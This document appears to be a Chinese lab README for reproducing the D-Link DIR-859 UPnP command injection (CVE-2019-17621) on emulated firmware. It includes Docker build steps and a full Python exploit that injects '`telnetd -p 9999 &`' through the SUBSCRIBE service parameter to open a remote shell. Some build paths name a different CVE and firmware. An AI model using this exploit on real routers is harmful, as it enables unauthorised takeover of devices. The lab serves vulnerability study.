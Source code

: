 # D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- firmadyne：固件主机：192.168.0.1
- htdocs/cgibin（有漏洞的服务程序）：192.168.0.1:49152

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/binwalk:noentry -> firmianay/firmadyne

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/binwalk && docker build -t firmianay/binwalk:noentry . && cd ../../../   # build前要先注释掉ENTRYPOINT
$ cd baseImage/firmadyne && docker build -t firmianay/firmadyne . && cd ../../../
```

（可选）使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mips CVE-2019-20760/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mips-gdbserver-7.11.1 CVE-2019-20760/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-firmadyne.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA
- https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg
